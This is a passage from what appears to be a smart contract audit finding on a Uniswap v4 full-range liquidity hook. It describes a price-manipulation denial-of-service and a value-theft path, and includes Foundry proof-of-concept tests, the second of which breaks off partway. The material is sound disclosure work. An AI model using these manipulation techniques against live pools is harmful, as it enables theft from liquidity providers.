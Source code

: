 
It first removes all the liquidity and then computes the new square root price; however, if the price has been manipulated to lay outside the intended liquidity range, this removal will be single-sided in only one of the pool tokens. This will therefore cause a panic revert when attempting to compute the new square root price due to division by a zero amount of `token0`:

```solidity
function test_RebalanceWhenPriceIsOutsideTickRange() public {
    manager.initialize(key, SQRT_PRICE_1_1);
    uint160 sqrtMaxTickUniswap = TickMath.getSqrtPriceAtTick(887271);
    uint160 sqrtMinTickUniswap = TickMath.getSqrtPriceAtTick(-887271);

    uint256 prevBalance0 = key.currency0.balanceOf(address(this));
    uint256 prevBalance1 = key.currency1.balanceOf(address(this));
    (, address liquidityToken) = fullRange.poolInfo(id);

    fullRange.addLiquidity(
        FullRangeHook.AddLiquidityParams(
            key.currency0, key.currency1, 3000, 10e6, 10e6, 0, 0, address(this), MAX_DEADLINE
        )
    );

    uint256 prevLiquidityTokenBal = IncentivizedERC20(liquidityToken).balanceOf(address(this));

    IPoolManager.SwapParams memory params =
        IPoolManager.SwapParams({ zeroForOne: false, amountSpecified: -int256(key.currency0.balanceOfSelf()), sqrtPriceLimitX96: sqrtMaxTickUniswap });
    HookEnabledSwapRouter.TestSettings memory settings =
        HookEnabledSwapRouter.TestSettings({ takeClaims: false, settleUsingBurn: false });

    router.swap(key, params, settings, ZERO_BYTES);

    vm.expectRevert();
    fullRange.addLiquidity(
        FullRangeHook.AddLiquidityParams(
            key.currency0, key.currency1, 3000, 100000 ether, 100000 ether, 0, 0, address(this), MAX_DEADLINE
        )
    );
}
```

In the scenario where a pool is initialized outside of the intended range, manipulation of the liquidity calculations can be achieved without resulting in a DoS, meaning attackers can steal value from other liquidity providers:

```solidity
function test_addLiquidityFullRangePoC() public {
    token1 = new MockERC20("token1", "T1", 6);
    (token0, token1) = token0 > token1 ? (token1, token0) : (token0, token1);

    PoolKey memory newKey = PoolKey(Currency.wrap(address(token0)), Currency.wrap(address(token1)), 3000, 60, IHooks(hookAddress2));
    // the pool is initialized out of the intended range, either accidentally or by an attacker front-running bob
    manager.initialize(newKey, TickMath.getSqrtPriceAtTick(MIN_TICK - 1));

    uint256 mintAmount0 = 10_000_000 * 10 ** token0.decimals();
    uint256 mintAmount1 = 10_000_000 * 10 ** token1.decimals();

    address alice = makeAddr("alice");
    token0.mint(alice, mintAmount0);
    token1.mint(alice, mintAmount1);
    vm.startPrank(alice);
    token0.approve(hookAddress2, type(uint256).max);
    token1.approve(hookAddress2, type(uint256).max);
```
